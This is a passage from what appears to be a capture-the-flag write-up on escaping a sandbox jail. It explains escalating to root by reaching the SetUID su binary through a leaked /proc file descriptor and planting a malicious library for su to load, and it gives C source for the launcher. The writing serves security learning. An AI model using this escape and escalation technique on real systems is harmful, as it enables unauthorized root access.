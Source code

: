 
`id` still failed with an error for another missing library, but it does show
that if I can copy a library into the jail, it will be used by the `userprog`
running in that jail.

### Strategy

I’m going to abuse the `sandbox` application again. All these capabilities are
all dropped before my code gets run, and even before the `fork` calls, so all
three processes are running without these capabilities. However, if I use my
binary to run something that is set to SetUID, then that process will be
running as root. There are no SetUID binaries in the jail, but I already
showed I can access files outside the jail using the file descriptor in PIDs 1
or 3.

I’ve also shown that I can copy libraries into the jail and have those used.

Putting this all together, I’ll write two binaries. The first is a malicious
executable that will:

  * Sleep for a second to allow me time to load libraries into the jail.
  * Exploit the file descriptor to call a SetUID binary using `popen`.

The second is a malicious library that is loaded by the SetUID binary called
by the executable. If I can get this library into the jail while the loader
sleeps, then when the SetUID binary runs, it will run my malicious library,
giving execution as root.

### Binary to Launch su

#### Write and Compile Binary

I’ll write a binary that will sleep and then launch `su` using the same trick
I used to get a foothold:

    
    
    #include <stdio.h>
    #include <unistd.h>
    
    int main() {
    
        sleep(3);
    
        size_t bytesRead = 0;
    
        FILE *run = popen("/proc/1/fd/3/../../../../../../../usr/bin/su", "r");
        char buf[1000] = {0};
    
        while ((bytesRead = fread(buf, sizeof(buf), 1, run)) > 0) {
            printf("%s", buf);
        }
    
        pclose(run);
    }
    

Very much like the original exploit, except this time instead of reading a
file, I’ll use `popen` to run a process, and I’ll use the `/proc` trick to get
`su` from outside the jail. This time I don’t have to worry about seeing the
results through the `log` file, so I’ll just print the results to the screen.
